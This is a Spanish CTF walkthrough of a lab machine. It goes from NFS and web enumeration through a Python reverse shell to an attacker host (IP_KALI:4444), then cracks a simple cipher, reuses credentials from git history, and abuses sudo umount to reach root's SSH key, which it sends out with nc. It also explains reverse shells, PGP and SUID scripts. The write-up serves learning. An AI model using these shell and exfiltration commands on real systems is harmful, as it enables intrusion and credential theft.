

# <font color=red>[+]</font> Reconocimiento

```bash
sudo nmap -p- -sS -Pn -n --min-rate 5000 --max-retries 5 -vvv $IP

PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 62
111/tcp   open  rpcbind    syn-ack ttl 62
2049/tcp  open  nfs        syn-ack ttl 62
8080/tcp  open  http-proxy syn-ack ttl 62
40821/tcp open  unknown    syn-ack ttl 62
42457/tcp open  unknown    syn-ack ttl 62
50553/tcp open  unknown    syn-ack ttl 62
52679/tcp open  unknown    syn-ack ttl 62
```

```bash
sudo nmap -p 22,111,2049,8080,40821,42457,50553,52679 -sS -sVC -Pn -n --min-rate 5000 -v -oN versiones $IP

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:44:62:91:90:08:99:5d:e8:55:4f:69:ca:02:1c:10 (RSA)
|   256 e5:a7:b0:14:52:e1:c9:4e:0d:b8:1a:db:c5:d6:7e:f0 (ECDSA)
|_  256 02:97:18:d6:cd:32:58:17:50:43:dd:d2:2f:ba:15:53 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36049/tcp6  mountd
|   100005  1,2,3      52644/udp6  mountd
|   100005  1,2,3      52679/tcp   mountd
|   100005  1,2,3      54175/udp   mountd
|   100021  1,3,4      34843/tcp6  nlockmgr
|   100021  1,3,4      40066/udp   nlockmgr
|   100021  1,3,4      42457/tcp   nlockmgr
|   100021  1,3,4      53986/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-title: CCHQ
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
40821/tcp open  mountd   1-3 (RPC #100005)
42457/tcp open  nlockmgr 1-4 (RPC #100021)
50553/tcp open  mountd   1-3 (RPC #100005)
52679/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## <font color=red>[~]</font> RPCBind

>[!Note]
>***rpcbind*** es el servidor encargado de gestionar el mapeo entre los números de programa de ***RPC (Remote Procedure Call)*** y las direcciones de red (puertos) en las que escuchan.

Para ver las carpetas compartidas mediante ***NFS*** podemos usar la herramienta `showmount`:
```bash
showmount -e $IP

Export list for $IP
/var/nfs/general *
```

Vemos que el servidor ***NFS*** está compartiendo el directorio `/var/nfs/general` con todas las direcciones IP, por lo que podemos tratar de montarlo en nuestro propio sistema para ver que contiene.

```bash
# Creamos un directorio en /mnt donde montaremos el recurso compartido
mkdir -p test_nfs

# Montamos el recurso
sudo mount -t nfs $IP:/var/nfs/general /mnt/test_nfs -o nolock
# -o nolock evita problemas con el gestor de bloqueos de archivos (NFS Lock Manager)
```

Cuando listamos su contenido encontramos un archivo llamado `credentials.bak`, en el cual encontramos lo que parece ser un nombre de dominio y una contraseña.
## <font color=red>[~]</font> Entorno web

Cuando accedemos al servidor web usando la dirección `$IP:8080` se nos muestra una página sin contenido más allá de una imagen de fondo. En el código fuente no se nos da información. Por lo que comienzo el reconocimiento activo del entorno web.

### <font color=red>[-]</font> Fuzzing

```bash
ffuf -c -w <( tail -n+15 /usr/share/seclist/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt) -u http://$IP:8080/FUZZ -fc 404

login                   [Status: 200, Size: 556, Words: 25, Lines: 18, Duration: 44ms]
cat                     [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 35ms]
```

Encontramos dos recursos web ocultos, el primero es una página de ***login*** en el que podemos introducir las credenciales que encontramos antes. El segundo es la aplicación a la que se nos redirige al introducir las credenciales.

### <font color=red>[-]</font> C.A.T

>El recurso web `/cat` aparenta ser una aplicación en la que se nos pide que introduzcamos payloads para probarlos.

He estado probando a introducir código ***Python***, ***PHP*** (el cual parece que se ejecuta pero es el navegador web tratando de renderizar el código que se nos devuelve) y ***Bash*** sin éxito. No obstante, después de probar por un rato he conseguido obtener acceso a través de la ejecución del siguiente Script *One-Liner*:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP_KALI",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

>Explicación de porqué este script si funciona: ***[`python3 -c '...`](#python3--c-)***
# <font color=red>[+]</font> Post-Explotación

Obtenemos acceso al sistema como el usuario `paradox`:
```bash
id

uid=1003(paradox) gid=1003(paradox) groups=1003(paradox)
```

En su directorio `/home/paradox` obtenemos la *flag* `user.txt` de ***paradox***, pero nada más. Por lo que si miramos el resto de directorios en `/home` encontramos 3 usuarios más:
- ***szymex***
- ***tux***
- ***varg***
## <font color=red>[~]</font> Escalada de privilegios
### <font color=red>[-]</font> szymex

Cuando nos movemos al directorio `/home/szymex`, además del `user.txt`, encontramos un fichero llamado `note_to_para` en el cual se nos cuenta de la existencia de un script `SniffingCat.py`:
```python
#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
```

Cuando interpretamos el código podemos ver que se toma el valor de una contraseña en `/home/szymex/mysupersecretpassword.cat` y lo cifra usando el siguiente algoritmo:
#### Algoritmo de cifrado en `SniffingCat.py`

```python
enc = ''
for i in pwd:
    if ord(i) > 110:
        num = (13 - (122 - ord(i))) + 96
        enc += chr(num)
    else:
        enc += chr(ord(i) + 13)
return enc
```

Esta es la función del script que se encarga de cifrar la contraseña del archivo mencionado anteriormente.

1. Vemos que por cada carácter se mira si el código ASCII de dicho carácter es menor a ***110***.
   - ***Si es mayor a 110:*** Se crea una variable `num` que valdrá el resultado de la siguiente operación:
     `(13 - (122 - <Código_ASCII_Caracter>)) + 96`.
     Y la correspondencia entre el carácter\[i\] y el carácter cifrado\[i\] es el carácter cuyo código ASCII sea el resultado de la operación.
   - ***Si es menor o igual a 110:*** Simplemente se le suma 13 al código ASCII del carácter.
1. Tras esto, devuelve la clave cifrada, la cual usa para compararla contra la que debería de ser la contraseña cifrada.
##### Diagrama de flujo del cifrado



Como se que ver esto así puede ser un poco abstracto y lioso pongamos un ejemplo:
Imaginemos que la contraseña es `HOlaMunDO`:
1. Tomaremos la letra `H` y obtendremos su código ASCII (podemos verla en la siguiente ***<a src="https://elcodigoascii.com.ar/">web</a>***).
   `H = 72`.
2. Como `72` es menor que `110` la operación será:
   `72 + 13 = 85`
3. El código ASCII `85` es la letra `U`, por lo que la primera letra de la contraseña cifrada será una `U`.

Ahora miremos la letra `u` de `HOlaMunDO`:
1. Tomaremos la letra `u` y obtendremos su código ASCII (podemos verla en la siguiente ***<a src="https://elcodigoascii.com.ar/">web</a>***).
   `u = 117`.
2. Como `117` es mayor que `110` la operación será:
   `(13 - (122 - 117)) + 96 = 104`
3. El código ASCII `104` es la letra `h`, por lo que en la posición de la letra `u` de la clave original irá una `h`.

Si realizamos todo el proceso veremos que el resultado del cifrado de la palabra `HOlaMunDO` es: `U\ynZh{Q\Q`.
#### Ingeniería inversa del cifrado

Es importante que podamos ser capaces de comprender como funciona el algoritmo del cifrado para que seamos capaces de romperlo. Una vez entendemos como funciona el cifrado, vemos que es posible revertir el proceso de una forma sencilla:
##### 1. Simplificación matemática

Si analizamos la línea compleja del `if`:
`num = (13 - (122 - ord(i))) + 96`

Podemos simplificarla algebraicamente:
1. Quitamos los paréntesis: `13 - 122 - ord(i) + 96`
2. Agrupamos los números: `(13 - 122 + 96) + ord(i)`
3. Calculamos: `-13 + ord(i)`

Por lo tanto la función se resume a esto:
- Si el carácter es `>` a `110`: ***Restamos 13***
- Si el carácter es `<` a `110`: ***Sumamos 13***
##### 2. Explicación

Como el desplazamiento es exactamente de ***13*** (la mitad del alfabeto inglés de ***26 letras***), se crea un efecto espejo.
- ***Cifrar 'a' (97):*** Como `97` es `<=` `110`, hacemos `97 + 13 = 110` (***'n'***).
- ***Descifrar 'n' (110):*** como `110` es `<=` `110`, hacemos `110 + 13 = 123` (***'{}'***).
	- Aquí vemos que hay un pequeño error en la lógica del código del script, ya que al usar el límite en `110` (***'n'***), la ***'n'*** no vuelve a la ***'a'***, sino que salta fuera del alfabeto.

Sin embargo, para la mayoría de las letras funciona perfectamente de forma circular:
- ***Cifrar 's' (115):*** `115` `>` `110`, así que `115 - 13 = 102` (***'f'***).
- ***Descifrar 'f' (102):*** `102` `<=` `110`, así que `102 + 13 = 115` (***'s'***). ***Ha vuelto al origen!!!***
##### Corrección del script

```python
def encode(pwd):
	enc = ''
	for i in pwd:
		if ord(i) >= 110:
			num = (13 - (122 - ord(i))) + 96
			enc += chr(num)
		else:
			enc += chr(ord(i) + 13)
```
##### Rompiendo el cifrado

Para romper el cifrado tan solo debemos de volver a realizar las mismas operaciones:
- Si el carácter a cifrar es la ***'s'*** (`115`): Como `115` es `>` `110`, `115 - 13 = 102` (***'f'***).
- Si queremos descifrarlo ***'f'*** (`102`): Como `102` es `<` `110`, `102 + 13 = 115` (***'s'***).

```python
def decode(clave):
	dec = ''
	for i in clave:
		if ord(i) < 110:
			dec += chr(ord(i) + 13)
		else:
			dec += chr(ord(i) - 13)
	return dec
	
def main():
	print(f"La clave descifrada es: {decode('pureelpbxr')}")

if __name__ == "__main__":
	main()
```

```
La clave descifrada es: [hidden]
```

Una vez descifrada la clave podemos usarla para conectarnos vía ***SSH*** como el usuario `szymex`.
```bash
ssh szymex@$IP
```
### <font color=red>[-]</font> tux

>[!Note]
>***Tux*** es el nombre de la mascota oficial de Linux, y es posible que esta información nos sirva más adelante para resolver algún puzzle.

En el directorio `/home/tux` encontramos una nueva *flag* `user.txt`. Además, encontramos una nueva nota llamada `note_to_every_cooctus` en el que se nos dice que hay tres pruebas que debemos de pasar. Dos de ellas están en el mismo directorio `/home/tux`:
|_ `tuxling_1`
|_ `tuxling_3`
#### `tuxling_1`

Cuando accedemos a la primera prueba vemos un código escrito en ***C*** sin compilar y una nota en la que se nos dice que si somos capaces de crackear el código obtendremos un fragmento de la clave.
##### `nootcode.c`

```C
#include <stdio.h>

#define noot int
#define Noot main
#define nOot return
#define noOt (
#define nooT )
#define NOOOT "f96"
#define NooT ;
#define Nooot nuut
#define NOot {
#define nooot key
#define NoOt }
#define NOOt void
#define NOOT "NOOT!\n"
#define nooOT "050a"
#define noOT printf
#define nOOT 0
#define nOoOoT "What does the penguin say?\n"
#define nout "d61"

noot Noot noOt nooT NOot
    noOT noOt nOoOoT nooT NooT
    Nooot noOt nooT NooT

    nOot nOOT NooT
NoOt

NOOt nooot noOt nooT NOot
    noOT noOt NOOOT nooOT nout nooT NooT
NoOt

NOOt Nooot noOt nooT NOot
    noOT noOt NOOT nooT NooT
NoOt
```

Podemos ver que se genera un código a través de un diccionario peculiar que usa las sentencias `#define` para dar significado a cada distinto componente del código final.

Podríamos hacer la traducción manualmente, pero eso nos llevaría mucho tiempo y sería muy propenso a errores, por lo que la mejor idea es, de nuevo automatizar el proceso con ***Python***:

Primero debemos de prepararnos para la limpieza y formateo de los datos, para ello:
1. Copiamos y pegamos el código en nuestra máquina para poder usar nuestras herramientas.
2. Con `awk` separamos el código de las sentencias `#define`.
   ```bash
   # Separamos las sentencias #define
   awk '$1 ~ "^#define" {print $0}' nootcode.c > dictionary
   
   # Separamos el código
   awk '$1 !~ "^#" {print $0}' nootcode.c > codigo
   ```
3. Limpiamos el diccionario
   ```bash
   cat dictionary | sed 's/ /:/' | sed 's/ /:/' | sed 's/#define/\t/' dictionary_puntos | sed 's/ /:/' | sed 's/#define/\t/' | awk -F: '{if ($2 !~ "(NOOT|nooOT|nout|NOOOT|nOoOoT)") print "\t\"" $2 "\":\"" $3 "\","; else print "\t\"" $2 "\":" $3 ","}' >> script.py
   ```
4. Terminamos de crear el script en python:
   ```python
   import re


	dicc = {
		"noot":"int",
		"Noot":"main",
		"nOot":"return",
		"noOt":"(",
		"nooT":")",
		"NOOOT":"f96",
		"NooT":";",
		"Nooot":"nuut",
		"NOot":"{",
		"nooot":"key",
		"NoOt":"}",
		"NOOt":"void",
		"NOOT":"NOOT!\n",
		"nooOT":"050a",
		"noOT":"printf",
		"nOOT":"0",
		"nOoOoT":"What does the penguin say?\n",
		"nout":"d61",
	    }
	
	def traductor():
	    with open("codigo", "r") as c, open("codigo_traducido.c", "w") as f:
	        f.write('#include<stdio.h>\n')
	        for line in c:
	            words = re.split(r'(\s+)', line)
	            for word in words:
	                if word in dicc:
	                    f.write(dicc[word])
	                else:
	                    f.write(word)
	
	def main():
	    traductor()
	
	if __name__ == "__main__":
	    main()
   ```

Este script nos generará un archivo `.c` con el código traducido, en el cual podemos encontrar el primer fragmento de la clave:
```C
#include<stdio.h>

int main ( ) {
    printf ( What does the penguin say?
 ) ;
    nuut ( ) ;
    return 0 ;
}

void key ( ) {
    printf ( f96 050a d61 ) ;
}

void nuut ( ) {
    printf ( NOOT!
 ) ;
}
```

>[!Nota]
>Si quisiéramos ejecutar el código de ***C*** deberíamos de añadir las `"` en las funciones `printf`. Tras eso, usaríamos el compilador `gcc`.
>```bash
>gcc codigo_traducido.c -o codigo_traducido
>```
>Ahora podríamos ejecutarlo con `./codigo_traducido`.
#### `tuxling_3`

Una vez tenemos el primer fragmento vemos que hay otro en `tuxling_3`. En el que se encuentra una nota en el cual se nos da el tercer fragmento de la clave. Ahora tan solo nos falta el segundo fragmento para poder decodificarlo y obtener la contraseña del usuario `tux`.
#### `tuxling_2`

Para encontrar el último fragmento usaremos la herramienta `find`. Como hemos visto, los fragmentos parecen estar en directorios nombrados `tuxling_x` siendo `x` el fragmento del código que contienen. Por ello, lo más lógico es suponer que si buscamos un directorio o fichero denominado `tuxling_*` (o directamente `tuxling_2`) deberíamos de encontrar este último fragmento.

```bash
find / -name "tuxling_*" 2>/dev/null

/home/tux/tuxling_3
/home/tux/tuxling_1
/media/tuxling_2
```

Lo encontramos!! El último fragmento que nos falta se encuentra el el directorio `/medi/tuxling_2/` en el cual encontramos una nueva nota, una clave privada y un fragmento con la extensión `.asc`. Para más información sobre ***[PGP (Pretty Good Privacy)](#pgp-pretty-good-privacy)***.

Tenemos el mensaje cifrado `.asc` y la clave privada `.key`. Aunque la clave está en formato binario y nosotros no podemos leerla, no es un problema para la herramienta `gpg`, ya que el programa entiendo perfectamente el formato crudo.
##### Descifrar mensaje PGP

Como la clave está en binario, debemos primero importarla al sistema GPG.
```bash
gpg --import private.key
```

Si todo va bien deberíamos ver un mensaje como: `gpg: key XXXXXXXX: secret key imported`. Si nos diera algún error de "*no valid OpenPGP data*", es posible que el archivo estuviera corrupto o sea una clave de otro tipo (como ***SSH***).

Ahora que el sistema tiene la clave privada, intentamos abrir el mensaje:
```bash
gpg --decrypt fragment.asc
```

Normalmente, en este punto nos pedirían una contraseña (***passphrase***). Pero en esta ocasión no es así.

Tras todo esto, se nos mostrará el mensaje por pantalla en el que podemos ver el último fragmento de la clave.
```
The second key fragment is: [hidden]
```

Con todo esto ya tenemos todas las partes de la clave, si vamos a la web de ***<a href="https://crackstation.net/">CrackStation</a>***, podemos ver cual es la clave del usuario `tux`, la cual podemos usar para conectarnos al servidor como dicho usuario o usar la herramienta `su` para cambiar de usuario en la misma shell.

Si ejecutamos el comando `id` como el usuario `tux`, vemos que pertenecemos a los grupos `testers` y `os_tester`. Esta información nos puede ser de utilidad más adelante.
### <font color=red>[-]</font> varg

Dentro del directorio `/home/varg` encontramos varias cosas interesantes. La primera es un script de Python con el ***bit SUID activo***. Lo cual nos permite ejecutarlo como el usuario `varg`. Sin embargo, cuando he tratado de ejecutarlo me ha dado un error:
```
/usr/bin/python3: can't open file './CooctOS.py': [Errno 13] Permission denied
```

>Para saber el porque: ***[Python3 Permission denied](#python3-permission-denied)***.

Pasando a otras cosas, vemos un directorio `/cooctOS_src` al cual podemos acceder gracias a que pertenecemos al grupo `os_tester`. Cuando entramos en este directorio vemos que parece ser un pequeño sistema operativo y que contiene un `.git`. Dentro de este directorio encontramos que se realizó un *commit* en el que se especificaba que se había eliminado el sistema de login.

En `/home/varg/cooctOS_src/.git/logs/HEAD`, podemos ver el hash del *commit* con el cual podemos ver el código de dicha versión.
```bash
git show <hash_commit>
```

Se nos muestra el código en el que podemos encontrar unas credenciales *hardcodeadas*. Y aunque no podemos usarlas dentro del script anterior, podemos tratar de ver si el usuario `varg` ha reutilizado dicha contraseña para su usuario. Y obtenemos acceso como el usuario `varg`.
### <font color=red>[-]</font> root

Siendo el usuario `varg`, si vemos los permisos que tiene con la herramienta `sudo` veremos que puede ejecutar sin contraseña el comando `umount`. Aquí aprendí dos conceptos nuevos que son: el "***Filesystem Shadowing***" y el "***Filesystem Unmasking***". 
#### Filesystem Shadowing

Imaginemos que tenemos una caja (un directorio denominado `/secretos`).
1. El administrador pone un papel dentro que dice "*Contraseña de root*".
2. Luego, ***monta (`mount`)*** un disco encima de dicha carpeta. Ahora, cuando abrimos la carpeta, solo vemos lo que hay en el disco (que está vacío o tiene archivos falsos).
3. El papel original sigue ahí, pero está ***oculto bajo el montaje***.

>[!tip]
>Si podemos ejecutar `sudo umount`, podemos quietar esa "máscara" y ver qué había en la carpeta original antes de que se realizara el montaje.

Recordemos que antes hablábamos de lo que parecía ser un pequeño sistema operativo que, si mirábamos un poco más a fondo en el directorio `.git`, podíamos ver que se montaba en `/opt`. Podemos verificarlo usando el comando:
```bash
mount | grep '^/'
# O también:
df -h
```

Aprovechando el privilegio de `sudo` del usuario `varg`, podemos usar el comando `sudo umount /opt/CooctFS`. Cuando volvemos a ejecutar `ls -la /opt` volveremos a ver el directorio `CooctFS`, pero esta vez no será ese sistema operativo montado, sino un directorio el cual contiene una nueva carpeta `/opt/cooctFS/root` el cual contiene lo que parece una "copia" del directorio `/root`.

Cuando tratamos de ver el contenido de la *flag* `root` se nos muestra un mensaje en el que se nos dice que aún no somos ***root***. Por lo que para la escalada de privilegios vertical podemos ir a la carpeta `.ssh` en el cual encontraremos el fichero `id_rsa` que es la ***clave SSH privada*** del usuario `root`. Podemos enviárnosla a nuestra máquina usando `nc`.

```bash
# En nuestra máquina preparamos el puerto 4444 para recibir el archivo
nc -lvnp 4444 > id_rsa_root

# En la máquina víctima enviamos el contenido del fichero a través de nc
nc IP_KALI 4444 -w 3 < id_rsa
```
- `-w 3`: Hace que tras 3 segundos de inactividad se cierre sola la conexión. Es muy útil para saber cuando se ha enviado todo el fichero.

Una vez tengamos la clave en nuestra máquina debemos de modificar sus permisos para poder usarla, sino ***SSH*** nos mostrará un error.
```bash
chmod 600 id_rsa_root
```

Tras esto ya podremos acceder al sistema vía ***SSH*** como el usuario `root`.
```bash
ssh root@$IP -i id_rsa_root
```

---
---
# Explicaciones

## `python3 -c '...`

Cuando descubrí la zona web en la que debía de introducir código ***Python*** estuve probando varios scripts *One-Liner* con los que poder realizar, no solo reverse shells, sino también comandos simples como `print` o `os.system('id')` sin éxito.

Sin embargo, el siguiente script cumple su cometido creando una reverse shell:
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP_KALI",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
## 1. El problema de Standard Output (`stdout`)

Cuando lanzamos `python3 -c "import os; os.system('id')"`, el comando se ejecuta en el servidor, pero su salida (el resultado de `id`) se envía al ***Standard Output del proceso del servidor***.

- ***A dónde va esa salida?:*** Generalmente a la consola física donde el administrador lanzó el servidor *Werkzeug* o a un archivo de logs en `/var/log`.
- ***Por qué vemos el script en pantalla?:*** Probablemente la web está programada para mostrarnos lo que hemos enviado (un `echo`). Al ver nuestro propio comando de vuelta, creemos que no ha pasado nada, pero en realidad el comando `id` se ejecutó en el servidor. Nosotros no lo vemos porque no hay nada que redirija ese texto de vuelta a la respuesta HTTP.
## 2. La Reverse Shell

Nuestro segundo script ***funcionó*** porque no depende de la respuesta de la web para comunicarse con nosotros. La clave maestra está en esta línea:

```
[os.dup2(s.fileno(), f) for f in (0,1,2)]
```

Lo que estamos haciendo es ***secuestrar los descriptores de archivo*** del proceso:
1. `0` ***(Entrada):*** El servidor lee lo que le estamos escribiendo desde nuestra terminal.
2. `1` ***(Salida):*** El servidor nos envía a nosotros el resultado de los comandos.
3. `2` ***(Errores):*** También nos envía los mensajes de error.

Al usar `pty.spawn("/bin/bash")`, creamos una terminal real que ya tienen el camino pavimentado hacia nuestra IP. No importa que la web nos devuelva el script por pantalla (cosa que no hace porque queda procesando la reverse shell); la verdadera comunicación está viajando por el túnel que abrimos con el ***socket***.

---
## PGP (Pretty Good Privacy)

>Es el estándar de oro para la privacidad en las comunicaciones desde 1991. Es un sistema criptográfico híbrido que combina lo mejor de la criptografía simétrica y asimétrica.
### Qué es exactamente?

***PGP*** es un programa y un ***protocolo*** que se utiliza para ***cifrar, descifrar y firmar*** correos electrónicos, archivos y particiones de disco. Su gran revolución fue democratizar el uso de la ***criptografía asimétrica***, permitiendo que cualquier persona pudiera comunicarse de forma segura sin haber intercambiado una contraseña previamente.
### El par de llaves

- ***Llave pública:*** Todo el mundo puede verla y usarla para ***mandarnos mensajes secretos***. Cualquiera puede cifrar un mensaje usando nuestra clave pública para que así tan solo nosotros (que tenemos la clave privada) podamos descifrarla.
- ***Llave privada:*** ***SOLO NOSOSTROS LA TENEMOS!!!*** Se utiliza para descifrar los mensajes que nos mandan. También podemos usarla para firmar archivos, de esta forma cualquiera puede usar nuestra clave pública para verificar que somos nosotros quienes hemos firmado el archivo.
### Las tres funciones principales
#### A. Cifrado (Confidencialidad)

Solo el destinatario que posee la clave privada correspondiente es capaz de leer el mensaje. Si alguien intercepta el archivo en el camino, solo verá ruido aleatorio (o un bloque de texto `.asc`).
#### B. Firma Digital (Autenticidad e Integridad)

***PGP*** no solo sirve para ocultar secretos, sino para ***demostrar quién escribió qué***.
- Nosotros firmamos un mensaje con ***nuestra clave privada***.
- El resto del mundo usa ***nuestra llave pública*** para verificar que la firma es nuestra.
- Esto garantiza que el mensaje no ha sido modificado por el camino (si cambia un solo bit, la firma se rompe).
#### C. Web de Confianza (Web of Trust)

A diferencia de los sitios web (que usan certificados emitidos por empresas centrales), PGP utiliza un modelos descentralizado. Nosotros firmamos la clave de un amigo para decir: "*Confío en que esta clave pertenece realmente a esta persona*". Así se crean redes de confianza entre usuarios.
### Formatos y Extensiones

|    **Formato**    | **Extensión**  | **Descripción**                                                                                     |
| :---------------: | :------------: | --------------------------------------------------------------------------------------------------- |
|   ***Binary***    | `.gpg`, `.pgp` | Formato comprimido y crudo. No legible por humanos.                                                 |
| ***ASCII Armor*** |     `.asc`     | El binario se convierte a ***Base64***. Es el formato que empieza por `-----BEGIN PGP MESSAGE-----` |
### El flujo de trabajo típico

Para que un mensaje viaje de *A* a *B* de manera segura:

1. ***Generación:*** El usuario crea su par de claves y una ***passphrase*** (la contraseña que protege la clave privada).
2. ***Distribución:*** El usuario sube su clave pública al servidor o la envía por chat.
3. ***Cifrado:*** El emisor usa esa clave pública para cifrar el archivo.
4. ***Descifrado:*** El receptor usa su clave privada y su contraseña para abrirlo.

>[!tip]
>El punto débil de PGP casi nunca es el algoritmo (que es matemáticamente casi imposible de romper hoy en día), sino la ***clave privada***. Si un atacante consigue el archivo `.key` y hace fuerza bruta a la contraseña, el sistema cae por completo.

---
## Python3: Permission denied

El error `Permission denied` a pesar del bit SUID tiene una explicación técnica muy profunda relacionada con cómo Linux maneja los ***intérpretes***.
### El problema: El Kernel no confía en los Scripts

En la mayoría de las distribuciones Linux modernas, el Kernel ignora el bit SUID en los scripts (archivos que empiezan por `#!`).

***Por qué?:*** Por una vulnerabilidad histórica llamada "***Shebang Race Condiction***". Si el kernel permitiera SUID en scripts, un atacante podría cambiar el archivo justo en el microsegundo entre que el kernel lee el `#!` y el intérprete (Python) abre el archivo, logrando ejecutar código arbitrario como ***root***.
### Por qué el error "Permission Denied"?

Aunque el archivo tenga el bit `s`, sucede lo siguiente:
1. Ejecutamos el script.
2. El kernel ve que es un script de Python y lanza `/usr/bin/python3 script.py`.
3. El kernel ***descarta el privilegio SUID*** por seguridad.
4. Ahora, `python3` intenta abrir el archivo `script.py` para leerlo.
5. Pero, como el proceso de Python ahora corre con ***nuestros permisos de usuario***.
### Pero si el archivo tiene permisos de ejecución para "Otros"

Aquí es donde la lógica de Linux se vuelve un poco contraintuitiva. Hay una razón muy sencilla por la que tener permisos `--x` en un script de Python (o cualquier otro lenguaje interpretado), no permite ejecutar el código.
#### Ejecución vs. Lectura

Cuando ejecutamos un ***binario compilado*** (como `ls`, `gcc`, ...), el procesador carga directamente las instrucciones en la memoria. No necesita "leer" el archivo como texto.

Sin embargo, cuando ejecutamos un ***script*** (Python, Bash, PHP):
1. El kernel ve el bit `x` y dice: "*Vale, puedeo **intentar** lanzarlo*".
2. Lee la primera línea (`#! /usr/bin/python3`).
3. Lanza el proceso `/usr/bin/python3`.
4. ***Aquí viene el fallo:*** Python es un ***intérprete***. para ejecutar el código, Python necesita abrir el archivo, leerlo línea por línea y traducirlo.
5. Como el kernel ignoró el bit SUID (por seguridad), Python corre con nuestros permisos de usuario.
6. Al intentar abrir el archivo para leerlo, el sistema dice: ***Un momento, tú no tienes permiso de lectura (`r`), solo de ejecución (`x`)***.

>[!Warning]
>***Resultado:*** `[Errno 13] Permission denied`. Es el in térprete de Python el que nos está dando el error, no el kernel.

